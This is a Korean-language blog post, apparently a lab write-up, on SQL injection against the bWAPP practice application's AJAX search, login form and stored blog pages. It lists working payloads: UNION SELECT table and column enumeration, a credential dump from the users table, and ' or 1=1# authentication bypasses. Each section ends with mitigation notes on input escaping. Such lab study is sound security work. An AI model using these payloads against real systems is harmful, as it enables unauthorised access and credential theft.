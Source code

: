 ```yaml
---
layout: post
title: "Webhacking(AJAX)"
date: 2021-01-07 07:03:00 +0900
background: "/img/posts/05.jpg"
categories: ["development"]
---
```


AJAX
====
==> Asynchronouss JavaScript and XML <br>
HTML, 자바스크립트, JSON을 혼합하여 사용하는 기술을 의미
> JSON :: 웹서버와 데이터를 주고받을 떄 데이터를 표현하는 방법을 의미

![AJAX 검색에 사용하는 변수 + GET 메소드](https://user-images.githubusercontent.com/76092057/103825633-8b86bd80-50b8-11eb-883c-89087d315fcb.PNG){: width:"100%" height:"100%"}

소스코드 확인 결과
-----------------
1. 검색에 사용하는 변수는 title
2. GET 메소드를 사용함으로 URL에서도 변수와 변수에 대입한 값을 노출한다. 하지만, AJAX로 구현한 페이지이기 떄문에 URL에 있는 변수에 값을 입력하여도 결과를 출력하지 않는다.

* DB의 테이블 명을 확인하기 위해 UNION SELECT 구문을 사용한다.(이때, 쿼리의 칼럼 수가 기존 쿼리에서 호출하는 칼럼 수와 일치해야하는데, 이 경우, 칼럼의 수는 총 7개이다.)
  > 0' union select null, table_name, null, null, null, null, null from information_schema.tables#

![AJA SQL 인젝션 결과(테이블명)](https://user-images.githubusercontent.com/76092057/103826311-f258a680-50b9-11eb-9863-c18bfc3a74c3.PNG){: width:"100%" height:"100%"}

* 웹 애플리케이션에서 사용 중인 데이터베이스 bWAPP의 테이블 명을 찾기 위해서 SQL 인젝션 공격 시도
  > 0' union select null, table_name, null, null, null, null, null from information_schema.tables where table_schema="bWAPP"#

![AJAX bWAPP 테이블명 찾기](https://user-images.githubusercontent.com/76092057/103826571-6dba5800-50ba-11eb-8fc3-c70d356bfd3d.PNG){: width:"100%" height:"100%"}

* 5개의 테이블 중 users 테이블이 사용자의 계정 정보를 저장하는 테이블이라고 추정한 뒤, users 테이블 칼럼명을 출력하는 쿼리를 만든다.
  >  0' union select null, columns_name, null, null, null, null, null from information_schema.columns where table_name="users" and table_schema="bWAPP"#

![AJAX 계정 정보](https://user-images.githubusercontent.com/76092057/103826865-0d77e600-50bb-11eb-94e1-9e06d69ca522.PNG){: width:"100%" height:"100%"}

* 칼럼들의 내용을 확인할 수 있는 쿼리를 만든다
  > 0' union select null, id, login, password, admin, null, null from users#

![AJAX 공격 성공](https://user-images.githubusercontent.com/76092057/103827061-79f2e500-50bb-11eb-817f-79a30d7e8eaa.PNG){: width:"100%" height:"100%"}

* 결과 :: admin 칼럼은 관리자 계정의 순서 번호를 저장하므로 관리자 계정의 아이디는 "A.I.M" 이라는 것을 알 수 있다.

### 대응방안

![AJAX 대응방안](https://user-images.githubusercontent.com/76092057/103827316-0f8e7480-50bc-11eb-872e-9c4c4d12b833.PNG){: width:"100%" height:"100%"}

1. sqli_check_2 함수를 사용하여 입력한 SQL 구문을 쿼리로 인식하지 않게 우회하였음을 알 수 있다.
2. sqli_check_2 함수는 functions_external.php에 정의되어 있고 PHP 기본 제공 함수인 mysql_real_escape_string 함수를 사용하여 입력한 데이터를 우회한다.
3. mysql_real_escape_string 함수는 사용자 입력 값에 SQL 문법에서 사용하는 특수 문자가 있을 경우 백슬래시를 붙여 입력 데이터를 SQL 문법으로 인식하지 않게 방어한다.

***

Login Form/Hero
===============

* 아이디, 비밀번호란에 작음따옴표를 입력하여 SQL 인젝션 취약점이 있는지 확인한다.

![Logtin Form 데이터베이스 서버 파악](https://user-images.githubusercontent.com/76092057/103827713-f33f0780-50bc-11eb-9f24-f07bfccc8727.PNG){: width:"100%" height:"100%"}

* 항상 결과가 참인 쿼리를 아이디 입력란에서 삽입하고 확인
  > ' or 1=1#

![Login Form 항상 참인 쿼리](https://user-images.githubusercontent.com/76092057/103827857-3ac59380-50bd-11eb-8093-204f935a043b.PNG){: width:"100%" height:"100%"}
==> 결과 : 'neo'라는 사용자로 로그인에 성공하고 해당 사용자의 비밀번호 힌트도 출력된다.
<br>
(비밀번호를 입력하지 않아도 로그인이 되는 이유는 변수를 따로 입력받지 않고 AND 연산자를 사용하여 한 줄로 DB의 아이디와 비밀번호를 출력하기 때문에 발생하는 취약점이다.)

* 아이디를 알고 있고 있으면 항상 참인 쿼리를 만들어 neo 이외에 사용자로도 로그인이 가능하다.
  > alice ' or 'a'='a

![Login Form 공격 성공](https://user-images.githubusercontent.com/76092057/103828358-f4246900-50bd-11eb-80f3-5f1e6ab94fb5.PNG){: width:"100%" height:"100%"}

### 대응방안

![Login Form 대응방안](https://user-images.githubusercontent.com/76092057/103829197-2f269c80-50be-11eb-90c9-dc7b8fad9396.PNG){: width:"100%" height:"100%"}

1. 난이도 상에서는 작은따옴표를 입력하여도 오류메세지 출력 x, SQL 취약점이 없다.
2. sqli_check_2 함수를 사용하여 입력한 SQL 구문을 쿼리로 인식하지 않게 우회하였음을 알 수 있다.
3. sqli_check_2 함수는 functions_external.php에 정의되어 있고 PHP 기본 제공 함수인 mysql_real_escape_string 함수를 사용하여 입력한 데이터를 우회한다.
4. mysql_real_escape_string 함수는 사용자 입력 값에 SQL 문법에서 사용하는 특수 문자가 있을 경우 백슬래시를 붙여 입력 데이터를 SQL 문법으로 인식하지 않게 방어한다.

*** 

Blog
====
사용자가 입력한 내용을 저장하고 테이블 형태로 출력하는 페이지

* 텍스트 입력 공간에 작은따옴표를 입력하여 SQL 인젝션에 취약한지를 파악한다.

![stored blg SQL 취약점](https://user-images.githubusercontent.com/76092057/103831438-6cd7f500-50bf-11eb-9072-5d6c76a0679b.PNG){: width:"100%" height:"100%"}

* 오류 메세지를 살펴서 SQL 쿼리를 만들기 위하여 entry 변수에 다음과 같이 입력
  > '1

![stored blog SQL 쿼리](https://user-images.githubusercontent.com/76092057/103831732-0ef7dd00-50c0-11eb-83dd-3e4809084f32.PNG){: width:"100%" height:"100%"}

==> 작은따옴표의 짝이 맞지 않아서 발생하는 오류라는 것을 알 수 있다.

* 쿼리의 마지막에 사용자 아이디가 있으므로 작은따옴표와 괄호를 같이 사용하는 쿼리를 만든다.
  > I like honey',(select password from bWAPP.users where id=1 limit 0,1)#

![stored blog 공격 성공](https://user-images.githubusercontent.com/76092057/103831956-93e2f680-50c0-11eb-8305-41cd259873e0.PNG)
{: width:"100%" height:"100%"}


### 대응방안

![stored blog 대응방안](https://user-images.githubusercontent.com/76092057/103832075-d4db0b00-50c0-11eb-9f09-5cb6d54805b1.PNG){: width:"100%" height:"100%"}

1. sqli_check_2 함수를 사용하여 입력한 SQL 구문을 쿼리로 인식하지 않게 우회하였음을 알 수 있다.
2. sqli_check_2 함수는 functions_external.php에 정의되어 있고 PHP 기본 제공 함수인 mysql_real_escape_string 함수를 사용하여 입력한 데이터를 우회한다.
3. mysql_real_escape_string 함수는 사용자 입력 값에 SQL 문법에서 사용하는 특수 문자가 있을 경우 백슬래시를 붙여 입력 데이터를 SQL 문법으로 인식하지 않게 방어한다.

123213123123

 